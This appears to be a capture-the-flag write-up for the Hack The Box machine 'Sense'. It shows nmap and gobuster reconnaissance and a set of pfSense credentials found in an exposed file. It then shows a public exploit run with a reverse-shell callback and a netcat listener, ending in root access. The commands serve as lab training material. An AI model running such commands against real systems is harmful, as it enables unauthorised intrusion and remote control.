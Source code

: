 ![[Pasted image 20240720105845.png]]

**Ping**
```
ping 10.10.10.60
```
![[Pasted image 20240620184846.png]]

Nmap Default Scan
```
nmap 10.10.10.60 -oN dnmap
```
![[Pasted image 20240620184931.png]]

Nmap Service and Script Scan
```
nmap 10.10.10.60 -sC -sV -A -oN snmap
```
![[Pasted image 20240620185142.png]]

Nmap All Port scan
```
nmap 10.10.10.60 -p- --open -T5 -oN anmap
```
![[Pasted image 20240620185657.png]]

Gobuster Scan
```
gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster443.txt
```


Port 443:
https://10.10.10.60/index.php
![[Pasted image 20240620194008.png]]
The website is running **pfsense**

pfsense default creds
![[Pasted image 20240620193844.png]]

Default creds doesn't worked


We got creds
https://10.10.10.60/system-users.txt
![[Pasted image 20240620194126.png]]
Password should be pfsense, because that is the default password for pfsense, will check

It worked.....!
![[Pasted image 20240620194257.png]]
Creds **rohit:pfsense**
Also we can se the pfsense version.



Will search Public Exploit for the pfsense Version
![[Pasted image 20240620194604.png]]
Found one https://www.exploit-db.com/exploits/43560

As Always saved the python code in file named exp.py and ran the exploit accordingly
```
python3 exp.py --rhost 10.10.10.60 --lhost 10.10.14.6 --lport 443 --username rohit --password pfsense
```
![[Pasted image 20240620195826.png]]

Got Reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240620195916.png]]
We ARe R0o1....!

No need privilege escalation as we already landed in a Root Shell

**root.txt**
![[Pasted image 20240620200053.png]]

user.txt
![[Pasted image 20240620200125.png]]




Done with Sense.....:)
